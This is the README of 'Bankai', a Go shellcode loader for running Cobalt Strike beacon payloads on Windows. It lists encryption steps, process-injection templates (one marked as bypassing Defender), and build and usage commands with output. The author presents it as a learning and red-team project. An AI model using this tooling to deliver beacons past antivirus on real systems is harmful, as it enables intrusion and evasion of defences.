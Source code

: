<p align="center">
    <br>
        <img src=img/bankai.jpg >
    <br>
</p>

# Bankai
Another Go shellcode loader designed to work with Cobalt Strike raw binary payload. I created this project to mainly educate myself learning Go and directly executing shellcode into the target Windows system using various techniques. 

<b>Encryption</b> - I implemented a simple payload encryption process (IV --> AES --> XOR --> Base64) that I learned while studying for [SLAE32](https://bigb0ss.medium.com/expdev-custom-go-crypter-fb8f9bac0fe8). This is mainly for protecting Cobalt Strike payload when it's moved over to the target host. The final compiled payload will include a decrypt function within.

<b>Templates</b> - Templates are the skeleton scripts to generate a final payload per each technique. 

## Installation
```
git clone https://github.com/bigb0sss/bankai.git
GO111MODULE=off go build bankai.go
```

## Usage & Example
Generate a Cobalt Strike payload:

<p align="center">
    <br>
        <img src=img/cobalt.png>
    <br>
</p>

```
./bankai -h                       

     _                 _         _ 
    | |               | |       (_)
    | |__   __ _ _ __ | | ____ _ _ 
    | '_ \ / _' | '_ \| |/ / _' | |
    | |_) | (_| | | | |   < (_| | |
    |_.__/ \__,_|_| |_|_|\_\__,_|_|
                        [bigb0ss]

    [INFO] Another Go Shellcode Loader

 
    Required:
    -i            Binary File (e.g., beacon.bin)
    -o            Payload Output (e.g, payload.exe)
    -t            Payload Template (e.g., win32_VirtualProtect.tmpl)
    -a            Arch (32|64)
    
    Optional:
    -h            Print this help menu
    -p            PID

    Templates:                                        Last update: 06/07/21
    +--------------------------------------+-----------+------------------+
    | Techniques                           | PID       | Bypass Defender  |
    +--------------------------------------+-----------+------------------+
    | win32_VirtualProtect.tmpl            |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateFiber.tmpl               |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThreadNative.tmpl  | Required  |        Yes       | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThread.tmpl              |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EtwpCreateEtwThread.tmpl       |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_Syscall.tmpl                   |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadpoolWait.tmpl      |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumerateLoadedModules.tmpl    |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumChildWindows.tmpl          |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThread.tmpl        | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_RtlCreateUserThread.tmpl       | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadNative.tmpl        |           |        No        | 
    +--------------------------------------+-----------+------------------+

    Example:

    ./bankai -i beacon.bin -o payload.exe -t win64_CreateThread.tmpl -a 64
    [INFO] Key: SymE9GQBtyHL4IAq5Pm6r3b8I7PJB9l0
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateThread.tmpl
    [INFO] InputFile: beacon.bin
    [INFO] OutputFile: payload.exe

    ./bankai -i beacon64.bin -o payload.exe -t win64_CreateRemoteThread.tmpl -a 64 -p 7720
    [INFO] Key: 3mOL2Ne5XIW4xCieiR7cPmHtw4o737Do
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateRemoteThread.tmpl
    [INFO] InputFile: beacon64.bin
    [INFO] OutputFile: payload.exe
```

## Credits / Acknowledgments / References
All of the work is inspired and done by the following researchers/projects:
* [go-shellcode](https://github.com/brimstone/go-shellcode) by brimstone
* [go-shellcode](https://github.com/Ne0nd0g/go-shellcode) by Ne0nd0g
* [GoPurple](https://github.com/sh4hin/GoPurple) by sh4hin
* Go Template - https://dev.to/kirklewis/go-text-template-processing-181d

## Todo
* Add more shellcode injection technique templates
* Add [AlternativeShellcodeExec](https://github.com/S4R1N/AlternativeShellcodeExec) techniques that Ali and Alfaro found
* Test these shellcodes with modified malleableC2 profiles 